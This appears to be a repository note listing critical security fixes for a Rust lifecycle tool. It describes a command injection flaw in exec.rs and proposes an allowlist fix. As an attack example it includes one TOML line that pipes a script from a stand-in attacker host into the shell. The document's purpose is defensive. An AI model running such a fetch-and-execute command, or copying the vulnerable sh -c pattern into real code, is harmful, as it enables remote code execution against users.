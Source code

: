 # Critical Security Fixes Required for Production

**Status**: 🔴 **BLOCKING PRODUCTION DEPLOYMENT**
**Date**: 2025-10-11
**Priority**: P0 - Immediate Action Required

---

## Summary

The lifecycle system has **3 CRITICAL** and **8 HIGH** severity vulnerabilities that must be fixed before any production deployment. Primary concerns are **command injection** and **path traversal** attacks.

**Full Report**: See [SECURITY_REVIEW.md](./SECURITY_REVIEW.md)

---

## 🔴 P0: Fix Within 48 Hours (Critical)

### 1. Command Injection (CVSS 9.8) - RCE Risk
**File**: `/src/lifecycle/exec.rs:253-283`

**Issue**: Shell execution allows arbitrary code execution:
```rust
// ❌ VULNERABLE
let mut c = Command::new("sh");
c.arg("-c");  // Executes ANY shell command from TOML
command.current_dir(cwd).arg(cmd);  // No validation!
```

**Attack Example**:
```toml
[lifecycle.build]
command = "curl attacker.com/malware.sh | sh"
```

**Fix Required**:
```rust
// ✅ SECURE - Use allowlist + no shell
fn execute_command_safe(cmd: &[&str], cwd: &Path) -> Result<()> {
    let allowed = ["cargo", "npm", "make", "git"];
    if !allowed.contains(&cmd[0]) {
        return Err(LifecycleError::Other(format!("Not allowed: {}", cmd[0])));
    }

    Command::new(cmd[0])
        .args(&cmd[1..])  // No shell, direct execution
        .current_dir(cwd)
        .output()?;
}
```

